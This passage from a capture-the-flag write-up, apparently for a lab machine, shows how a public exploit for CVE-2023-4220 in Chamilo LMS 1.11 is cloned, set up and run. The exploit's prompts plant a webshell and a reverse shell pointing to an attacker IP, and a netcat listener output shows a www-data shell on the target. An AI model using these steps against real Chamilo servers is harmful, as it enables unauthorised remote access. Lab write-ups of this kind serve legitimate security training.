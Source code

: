 {{< image src="../../../permx-img/04-exploit-found.png" alt="exploit chamilo 1.11" position="center" style="border-radius: 8px;" >}}

[GithubRai2en](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS?tab=readme-ov-file)

Now we must clone the repository in our machine and execute using a venv with python the requirements of the script.

{{< image src="../../../permx-img/05-exploit-clone.png" alt="clone repo" position="center" style="border-radius: 8px;" >}}

Once cloned and inside the exploit directory, we create our venv and activate it so we can install the requirements.

{{< image src="../../../permx-img/06-venv-python.png" alt="venv" position="center" style="border-radius: 8px;" >}}
{{< image src="../../../permx-img/06b-venv-activate.png" alt="venv" position="center" style="border-radius: 8px;" >}}
{{< image src="../../../permx-img/07-install-requirements.png" alt="venv" position="center" style="border-radius: 8px;" >}}

With everything ready, we run the scan mode to verify that the subdomain is vulnerable.

{{< image src="../../../permx-img/08-using-exploit-scan.png" alt="exploit chamilo 1.11" position="center" style="border-radius: 8px;" >}}

Now we must use the revshell mode

{{< image src="../../../permx-img/09-using-exploit-revshell.png" alt="exploit chamilo 1.11" position="center" style="border-radius: 8px;" >}}

### Usage

-First it asks you to enter the type of shell to use: bash.
-Then we hit enter to use the default one, if you want you can upload your own revshell file.
-Then we enter our IP
-Finally the port we are going to be listening on e.g. 443

```sh
Enter the name of the webshell file that will be placed on the target server (default: webshell.php): bash
Enter the name of the bash revshell file that will be placed on the target server (default: revshell.sh): 
Enter the host the target server will connect to when the revshell is run: 10.10.16.47
Enter the port on the host the target server will connect to when the revshell is run: 443
```

Before executing the exploit we open another terminal and go into listening mode with netcat on the chosen port

```sh
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.47] from (UNKNOWN) [10.129.55.224] 53538
bash: cannot set terminal process group (1132): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
```
